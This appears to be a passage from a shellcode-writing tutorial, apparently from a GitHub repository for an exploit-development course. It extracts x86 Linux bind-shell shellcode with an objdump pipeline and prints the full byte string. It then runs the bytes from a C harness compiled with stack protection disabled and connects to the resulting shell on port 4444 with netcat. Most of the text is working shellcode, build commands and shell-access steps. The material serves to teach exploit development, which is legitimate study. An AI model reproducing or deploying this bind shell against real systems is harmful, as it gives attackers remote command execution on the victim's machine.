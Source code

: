 Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so,
```bash
$ objdump -d ./shell_bind_tcp | grep ‘[0-9a-f]:’ | grep -v ‘file’ | cut -f2 -d: | cut -f1-6 -d’ ‘ | tr -s ‘ ‘ | tr ‘t’ ‘ ‘ | sed ‘s/ $//g’ | sed ‘s/ /x/g’ | paste -d ” -s | sed ‘s/^/”/’ | sed ‘s/$/”/g’

“\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80”
```
You may notice that there is indeed a null byte in the above shellcode, it pertains to this code:
```nasm	
680200115C        push dword 0x5c110002 ; sin_port/sin_family
```
This particular byte is part of an immediate dword value and execution of the code will treat it as such.

The shellcode can be copied and pasted into a test program similar to the one below.
```c	
#include <stdio.h>
 
unsigned char code[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e"
"\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80"
"\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a"
"\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
 
main()
{
    printf("Shellcode Length: %d\n", sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
}
```
Build the code:
```
$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
The options for gcc are to disable stack protection and enable stack execution respectively. Without these options the code will cause a segfault.

Test above executable on localhost using netcat:
Open a terminal under working directory,
```
$ ./shellcode
```
Open another terminal,
```
$ nc localhost 4444
```
commands can now be executed in this terminal e.g. try typing ls to see contents of shellcode directory.
